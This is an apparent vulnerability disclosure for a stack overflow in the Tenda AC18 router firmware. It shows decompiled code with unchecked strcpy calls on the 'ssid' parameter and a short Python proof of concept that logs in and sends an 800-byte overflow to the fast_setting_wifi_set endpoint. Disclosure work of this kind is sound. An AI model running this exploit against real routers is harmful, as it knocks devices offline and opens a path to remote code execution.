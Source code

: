 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)



### * Vulnerability Detail

In function form_fast_setting_wifi_set, the content obtained by the program from the parameter "ssid" is passed to local_20, 
and then the local_20 is directly copied into the acStack128 and acStack196 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
undefined4 form_fast_setting_wifi_set(int param_1)

{
  undefined4 uVar1;
  size_t sVar2;
  int iVar3;
  undefined4 local_268;
  undefined4 local_264;
  undefined4 local_260;
  undefined4 local_25c;
  char acStack600 [4];
  char acStack596 [4];
  char acStack256 [64];
  char acStack192 [64];
  char acStack128 [64];
  undefined local_40 [12];
  undefined4 local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  char *local_24;
  char *local_20;
  int local_1c;
  int local_18;
  undefined4 local_14;
  ...
  local_34 = 0;
  memset(acStack128,0,0x40);
  memset(acStack192,0,0x40);
  memset(acStack256,0,0x40);
  local_14 = 1;
  ...
  local_20 = (char *)FUN_0002ba8c(param_1,"ssid",&DAT_000e378c);
  if (*local_20 == '\0') {
    printf("%s [%d] no ssid set, just return.\n","form_fast_setting_wifi_set",0x444);
    uVar1 = FUN_0002be4c(param_1,"login.html");
  }
  else {
    strcpy(acStack128,local_20);  // here is overflow
    strcpy(acStack192,local_20);  // here is overflow
    local_24 = (char *)FUN_0002ba8c(param_1,"wrlPassword",&DAT_000e378c);
    SetValue("wl2g.ssid0.ssid",acStack128);
    sVar2 = strlen(acStack192);
    memcpy(acStack192 + sVar2,&DAT_000e38b8,4);
    SetValue("wl5g.ssid0.ssid",acStack192);
    SetValue("wl2g_bss_ssid_old",acStack128);
    SetValue("wl5g_bss_ssid_old",acStack192);
    if (*local_24 == '\0') {
      SetValue("wl2g.ssid0.security",&DAT_000e3908);
      SetValue("wl5g.ssid0.security",&DAT_000e3908);
    }
    else {
      SetValue("wl2g.ssid0.security","wpapsk");
      SetValue("wl5g.ssid0.security","wpapsk");
      SetValue("wl2g.ssid0.wpapsk_psk",local_24);
      SetValue("wl5g.ssid0.wpapsk_psk",local_24);
    }
    SetValue("ali.reset.cfg",&DAT_000e34e4);
    memset(local_40,0,9);
    local_40[0] = 2;
    tpi_talk_to_kernel(9,local_40,&local_34,0,0,0);
    SetValue("fast.seting.red",&DAT_000e34e4);
    ...
}
```

### * POC
```python
import requests


cmd  = b'ssid=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/fast_setting_wifi_set/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
